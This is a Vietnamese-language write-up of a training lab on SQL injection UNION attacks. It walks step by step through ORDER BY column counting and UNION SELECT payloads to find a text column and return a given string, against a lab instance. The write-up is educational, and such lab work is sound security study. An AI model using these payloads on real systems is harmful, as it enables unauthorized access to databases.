









Lab 8 - SQL injection UNION attack, finding a column containing text

## B1: Phân tích yêu cầu bài lab
- Theo yêu cầu của bài lab, ta cần thực hiện một tấn công SQL injection kiểu UNION trả về một hàng bổ sung chứa giá trị được cung cấp. Vậy thì trước tiên ta cần xác định số lượng cột của bảng đó là bao nhiêu

- --> Có dòng chữ: Make the database retrieve the string: 'GKYbJF'
- --> Cần trả về 1 hàng bổ sung chứa giá trị trên 'GKYbJF'

## B2: Xác định số lượng cột

- Chọn 1 category bất kỳ trên giao diện (VD: Gifts)
  

https://0afe00af03e3b3c28078bdf5001e00b7.web-security-academy.net/filter?category=Gifts
- Đây là đường link hiện tại sau khi bấm vào mục Gifts
  
**Chèn payload ' order by 1--**
Kết quả trả về không bị lỗi, tiếp tục tăng số lượng cột

**Chèn payload ' order by 2--**
Kết quả trả về không bị lỗi, tiếp tục tăng số lượng cột

**Chèn payload ' order by 3--**
Kết quả trả về không bị lỗi, tiếp tục tăng số lượng cột

**Chèn payload ' order by 4--**
Kết quả trả về bị lỗi

**Số lượng cột = 3**

## B3: Chèn chuỗi string: 'GKYbJF'
- Trước hết ta cần xác định cột nào có kiểu dữ liệu là text và có thể chèn chuỗi yêu cầu vào cột đó

**Chèn payload '+UNION+SELECT+’a’,NULL,NULL--**
Không bị báo lỗi. Nhưng không hiện ra các thông tin nào khác ngoài các thông tin trước, có thể cột 1 đã bị ẩn

**Chèn payload '+UNION+SELECT+NULL,’a’,NULL—**
Trên màn hình xuất hiện 1 dòng mới được thêm vào có chữ ‘a’. Vậy cột 2 chính là cột mà ta cần chèn chuỗi vào
/images/image_8.png

**Chèn payload '+UNION+SELECT+NULL,’ GKYbJF’,NULL--**
Chèn chuỗi theo yêu cầu đề bài và hoàn thành bài lab

